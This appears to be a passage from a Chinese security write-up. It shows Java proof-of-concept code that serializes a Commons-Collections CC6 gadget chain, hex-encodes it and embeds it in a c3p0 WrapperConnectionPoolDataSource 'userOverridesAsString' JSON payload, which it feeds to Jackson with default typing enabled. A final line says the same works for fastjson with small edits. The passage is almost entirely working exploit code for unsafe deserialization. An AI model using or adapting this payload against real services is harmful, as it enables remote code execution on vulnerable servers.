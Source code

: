 ```java
        serialize(hashMap);
        return binaryFileToHexString(new File("cc6.ser"));
    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static String binaryFileToHexString(File file) throws IOException {
        StringBuilder hexString = new StringBuilder();
        try (FileInputStream fis = new FileInputStream(file)) {
            byte[] buffer = new byte[1024];
            int bytesRead;
            while ((bytesRead = fis.read(buffer)) != -1) {
                for (int i = 0; i < bytesRead; i++) {
                    hexString.append(String.format("%02X", buffer[i]));
                }
            }
        }
        return hexString.toString();
    }
    public static void main(String[] args) throws Exception {
        String payload = "HexAsciiSerializedMap1"+GenerateCC6()+"1";
        String jsonInput = aposToQuotes("{\"object\":['com.mchange.v2.c3p0.WrapperConnectionPoolDataSource',\n" +
                "{\n" +
                "'userOverridesAsString':'"+payload+"',\n" +
                "}\n" +
                "]\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        jackson_C3P0ImplUtils_HEX_CC6.enableDefaultTyping_Test test;
        try {
            test = mapper.readValue(jsonInput, jackson_C3P0ImplUtils_HEX_CC6.enableDefaultTyping_Test.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }
}

```

fastjson写法差不多，自己改改json
